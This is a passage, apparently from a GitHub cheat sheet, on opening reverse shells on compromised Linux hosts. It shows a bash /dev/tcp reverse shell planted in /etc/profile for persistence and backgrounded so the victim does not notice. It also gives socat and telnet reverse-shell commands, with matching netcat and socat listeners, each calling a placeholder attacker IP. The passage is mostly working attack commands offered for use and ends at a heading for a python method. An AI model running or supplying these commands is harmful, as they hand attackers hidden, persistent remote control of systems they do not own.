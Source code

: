 If someone logs in the Linux, then it must trigger `/etc/profile`, such as log in locally or SSH login.

If someone doesn't login shell(using strange methods to login and use sh or bash), then `/etc/profile` wont be triggered.

You can input such command into `/etc/profile`:

    /bin/bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1 &
    # the last ampersand makes the command in daemon, to avoid user's commands cannot execute and lead to the exposure.

### 6. Socat reverses shell

Socat is a multiple functional network tool, and it's similar to netcat.
    
    apt-get install socat

    Or

    wget from http://www.dest-unreach.org/socat

Attacker listens his VPS on specific port:
    
    socat TCP-LISTEN:2333 -

    Or

    nc -lvvp 2333
    
Target host command:

    socat tcp-connect:<attacker_ip>:<port> exec:'bash -li',pty,stderr,setsid,sigint,sane

### 7. Telnet reverses shell

If hacked host has no nc, we can use telnet to reverse shell

##### Method 1

Attacker listens on specific port:

    nc -lvvp 2333

Hacked host connects:
    
    mknod a p; telnet <attacker_ip> <port> 0<a | /bin/bash 1>a

##### Method 2

Attacker needs open 2 listening ports, one for inut, another for output:

    nc -lvvp 2333
    nc -lvvp 4000

Hacked host connects:

    telnet <attacker_ip> <port> | /bin/bash | telnet <attacker_ip> <port>

### 8. python
    